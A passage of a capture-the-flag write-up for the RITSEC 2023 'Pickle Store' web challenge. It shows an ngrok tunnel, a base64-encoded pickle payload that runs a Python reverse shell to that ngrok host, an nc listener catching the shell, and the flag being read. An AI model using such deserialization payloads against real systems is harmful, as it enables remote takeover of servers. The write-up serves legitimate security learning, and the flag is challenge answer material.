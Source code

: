 **Since we don't have a VPN connection to the challenge's instance, we'll need to do port forwarding. I'll use `ngrok` to do that:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/Pickle-Store)-[2023.04.02|13:06:54(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11713 -> localhost:4444
[...]
```

**Send the payload:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/Pickle-Store)-[2023.04.02|13:18:44(HKT)]
└> python3 solve.py
[*] Payload: gASVtAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjJlweXRob24zIC1jICdpbXBvcnQgb3MscHR5LHNvY2tldDtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKCIwLnRjcC5hcC5uZ3Jvay5pbyIsMTE3MTMpKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJyCUhZRSlC4=
[*] Request result:

```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023)-[2023.04.02|13:13:43(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38340
user@NSJAIL:/home/user$
```

Boom! I'm in!

**Let's get the flag!**
```shell
user@NSJAIL:/home/user$ ls -lah /
total 64K
drwxr-xr-x 17 nobody nogroup 4.0K Apr  2 02:27 .
drwxr-xr-x 17 nobody nogroup 4.0K Apr  2 02:27 ..
lrwxrwxrwx  1 nobody nogroup    7 Mar  8 02:05 bin -> usr/bin
drwxr-xr-x  2 nobody nogroup 4.0K Apr 15  2020 boot
drwxr-xr-x  5 nobody nogroup  360 Apr  2 04:51 dev
drwxr-xr-x 35 nobody nogroup 4.0K Apr  2 02:26 etc
-rw-r--r--  1 nobody nogroup   28 Mar 30 04:04 flag
drwxr-xr-x  3 nobody nogroup 4.0K Apr  2 02:26 home
lrwxrwxrwx  1 nobody nogroup    7 Mar  8 02:05 lib -> usr/lib
lrwxrwxrwx  1 nobody nogroup    9 Mar  8 02:05 lib32 -> usr/lib32
lrwxrwxrwx  1 nobody nogroup    9 Mar  8 02:05 lib64 -> usr/lib64
lrwxrwxrwx  1 nobody nogroup   10 Mar  8 02:05 libx32 -> usr/libx32
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 media
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 mnt
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 opt
drwxr-xr-x  2 nobody nogroup 4.0K Apr 15  2020 proc
drwx------  3 nobody nogroup 4.0K Apr  2 02:26 root
drwxr-xr-x  5 nobody nogroup 4.0K Mar  8 02:09 run
lrwxrwxrwx  1 nobody nogroup    8 Mar  8 02:05 sbin -> usr/sbin
drwxr-xr-x  2 nobody nogroup 4.0K Mar  8 02:06 srv
drwxr-xr-x  2 nobody nogroup 4.0K Apr 15  2020 sys
drwxrwxrwt  2 user   user      80 Apr  2 05:18 tmp
drwxr-xr-x 13 nobody nogroup 4.0K Mar  8 02:06 usr
drwxr-xr-x 11 nobody nogroup 4.0K Mar  8 02:09 var
user@NSJAIL:/home/user$ cat /flag
RS{TH3_L345T_53CUR3_P1CKL3}
```
